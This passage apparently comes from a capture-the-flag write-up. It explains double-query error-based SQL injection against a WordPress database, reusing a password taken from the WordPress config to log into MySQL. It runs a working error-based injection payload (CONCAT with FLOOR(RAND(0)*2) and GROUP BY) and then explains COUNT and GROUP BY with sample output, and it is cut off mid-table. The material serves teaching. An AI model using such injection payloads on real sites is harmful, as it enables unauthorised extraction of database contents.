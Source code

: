 

Using the password from the WordPress config, I'll connect to the DB:



    root@15af95635b7d:/# mysql -pNCC-1701E wordpress
    ...[snip]...
    mysql>



Running the query that is created above, the same message comes back:



    mysql> SELECT ID FROM wp_posts WHERE post_name = 1 AND (SELECT 7485 FROM(SELECT COUNT(*),CONCAT(0x716a717871,(SELECT (ELT(7485=7485,1))),0x71627a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a);
    ERROR 1062 (23000): Duplicate entry 'qjqxq1qbzxq1' for key '<group_key>'



### Background

#### COUNT

To understand Double Query Error-Based injection, it's important to
understand a couple SQL keywords.

`COUNT(*)` will return show the number of rows in a given group. So I
can find the number of posts:



    mysql> select COUNT(*) from wp_posts;
    +----------+
    | COUNT(*) |
    +----------+
    |       42 |
    +----------+
    1 row in set (0.00 sec)



Or I can group by `post_title` and get the number of each title:



    mysql> select COUNT(*), post_title from wp_posts group by post_title;
    +----------+---------------------------------+
    | COUNT(*) | post_title                      |
    +----------+---------------------------------+
    |        4 |                                 |
    |        1 | A homepage section              |
    |        1 | About                           |
    |        1 | Auto Draft                      |
    |        1 | Blog                            |
    |        2 | Coffee                          |
    |        1 | Contact                         |
    |        1 | cropped-enterprise_header-1.jpg |
    |        1 | Email                           |
    |        2 | enterprise_header               |
    |        2 | Espresso                        |